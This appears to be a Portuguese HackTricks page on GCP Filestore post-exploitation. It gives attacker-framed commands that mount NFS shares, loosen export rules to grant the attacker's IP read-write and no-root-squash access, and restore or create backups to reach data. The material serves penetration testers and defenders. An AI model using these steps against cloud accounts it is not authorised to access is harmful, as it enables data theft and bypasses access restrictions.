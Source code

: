 # GCP - Filestore Pós Exploração

{{#include ../../../banners/hacktricks-training.md}}

## Filestore

Para mais informações sobre o Filestore, consulte:

{{#ref}}
../gcp-services/gcp-filestore-enum.md
{{#endref}}

### Montar Filestore

Um sistema de arquivos compartilhado **pode conter informações sensíveis** interessantes do ponto de vista de um atacante. Com acesso ao Filestore, é possível **montá-lo**:
```bash
sudo apt-get update
sudo apt-get install nfs-common
# Check the share name
showmount -e <IP>
# Mount the share
mkdir /mnt/fs
sudo mount [FILESTORE_IP]:/[FILE_SHARE_NAME] /mnt/fs
```
Para encontrar o endereço IP de uma instância do filestore, verifique a seção de enumeração da página:

{{#ref}}
../gcp-services/gcp-filestore-enum.md
{{#endref}}

### Remover Restrições e obter permissões extras

Se o atacante não estiver em um endereço IP com acesso ao compartilhamento, mas você tiver permissões suficientes para modificá-lo, é possível remover as restrições ou o acesso a ele. Também é possível conceder mais privilégios ao seu endereço IP para ter acesso administrativo ao compartilhamento:
```bash
gcloud filestore instances update nfstest \
--zone=<exact-zone> \
--flags-file=nfs.json

# Contents of nfs.json
{
"--file-share":
{
"capacity": "1024",
"name": "<share-name>",
"nfs-export-options": [
{
"access-mode": "READ_WRITE",
"ip-ranges": [
"<your-ip-private-address>/32"
],
"squash-mode": "NO_ROOT_SQUASH",
"anon_uid": 1003,
"anon_gid": 1003
}
]
}
}
```
### Restore a backup

Se houver um backup, é possível **restaurá-lo** em uma instância existente ou em uma nova, para que suas **informações se tornem acessíveis:**
```bash
# Create a new filestore if you don't want to modify the old one
gcloud filestore instances create <new-instance-name> \
--zone=<zone> \
--tier=STANDARD \
--file-share=name=vol1,capacity=1TB \
--network=name=default,reserved-ip-range=10.0.0.0/29

# Restore a backups in a new instance
gcloud filestore instances restore <new-instance-name> \
--zone=<zone> \
--file-share=<instance-file-share-name> \
--source-backup=<backup-name> \
--source-backup-region=<backup-region>

# Follow the previous section commands to mount it
```
### Criar um backup e restaurá-lo

Se você **não tem acesso a um compartilhamento e não quer modificá-lo**, é possível **criar um backup** dele e **restaurá-lo** conforme mencionado anteriormente:
```bash
# Create share backup
gcloud filestore backups create <back-name> \
--region=<region> \
--instance=<instance-name> \
--instance-zone=<instance-zone> \
--file-share=<share-name>

# Follow the previous section commands to restore it and mount it
```
{{#include ../../../banners/hacktricks-training.md}}
